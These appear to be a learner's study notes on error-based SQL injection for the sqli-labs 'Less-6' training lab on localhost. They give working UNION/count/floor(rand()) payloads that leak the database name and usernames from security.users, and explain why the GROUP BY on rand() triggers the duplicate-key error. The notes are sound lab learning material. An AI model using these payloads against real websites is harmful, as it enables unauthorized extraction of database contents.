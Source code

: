 # error


http://127.0.0.1:8888/sqli/Less-6/?id=1' union select 1,count(\*),concat(database(),(floor (rand()\*2))) a from information_schema.tables group by a --%20

![](_v_images/20190105204106938_1430315411.png)

count(*) is required

if use `group by`.
have to specify the table to queryg

## second step

?id=1' union select 1,count(\*),concat((select username from security.users limit 0,1), floor (rand()\*2)) from information_schema.tables group by 3 --%20

take notice of () in (rand()\*2)


?id=1' union select 1,count(\*),concat((select username limit 0,1), floor (rand()\*2)) from security.users group by 3 --%20
won't work

this is because in the first one, (select username from security.users limit 0,1) is a fixed string like "admin"
so, the second is equal to
select 1,count(*),concat('admin', floor (rand()\*2)) from XXX group by 3

HOWEVER
(select username limit 0,1) is equal to just username
SO, the second setence is equal to
select 1,count(*),concat(username, foor (rand()\*2)) from security.users group by 3

In this case, there would be several rows with **different** username column.
NO duplicate group_key may happen--> NO error


## about group

group by a "column name"

![](_v_images/20190107115653026_505703806.png)

group by 2 means group by the second column, it got the same result as create variabel "a" and then group by a

if group by a column has rand(). It's very special.
Because what "value" this column will have is unsure.

At usual time.
If a column has value 0 or 1.
the database will first find all rows that has value 0 in that column
then find all rows has value 1 in that column

However, if the column has rand(), and group by exact that column
first try to find all rows having 0 in that column
then try to find all rows having 1 in that column
!! And then may try to find rows having 1 in that column again because of unstable value.

In this case, an error will be thrown

